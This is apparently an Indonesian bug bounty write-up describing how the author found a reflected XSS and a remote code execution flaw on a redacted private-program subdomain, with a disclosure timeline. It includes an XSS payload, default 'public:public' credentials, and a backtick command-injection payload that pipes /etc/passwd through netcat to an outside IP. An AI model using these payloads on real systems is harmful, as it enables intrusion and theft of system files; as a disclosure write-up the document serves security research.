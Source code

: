 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS On Private Program Cyber Army ID"
date: 2019-02-14
tags: [ "Bug Bounty", "RCE"]
---
```


## Reconnaissance 
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

 ![](/images/bugbounty/net/1.png)

Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

## XSS via POST Request
Untuk celah XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC 
- Script : https://pastebin.com/raw/zZN1pfSY

 ![](/images/bugbounty/net/2.png)


## Remote Code Execution
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya kira kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

 ![](/images/bugbounty/net/3.png)

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload \`cat /etc/passwd | nc XXX.199.221.101 9091\` pada parameter server, dan didapatkan result:

 ![](/images/bugbounty/net/4.png)

 ![](/images/bugbounty/net/5.png)

- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


## Reference
- [Getting a RCE — CTF Way
](https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f)
- [Cross Site Scripting (XSS)
](https://owasp.org/www-community/attacks/xss/)
